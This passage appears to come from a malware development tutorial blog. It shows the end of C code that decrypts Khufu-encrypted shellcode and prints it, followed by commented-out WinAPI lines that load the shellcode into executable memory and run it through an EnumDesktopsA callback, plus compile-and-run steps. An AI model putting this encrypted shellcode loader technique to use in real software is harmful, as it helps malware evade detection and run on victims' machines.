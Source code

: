 ```cpp
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  khufu_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }

  printf("\n\n");

//   LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
//   RtlMoveMemory(mem, padded, my_payload_len);
//   EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
  return 0;
}
```

As usually I used `meow-meow` messagebox payload in this code.     

### demo 2

Compile it (comment WinAPI functions and headers):    

```bash
gcc -o hack3 hack3.c
```

For demo purposes, run it on my linux machine:      

```bash
./hack3
```

![cryptography](/assets/images/141/2024-12-17_12-04.png){:class="img-responsive"}     
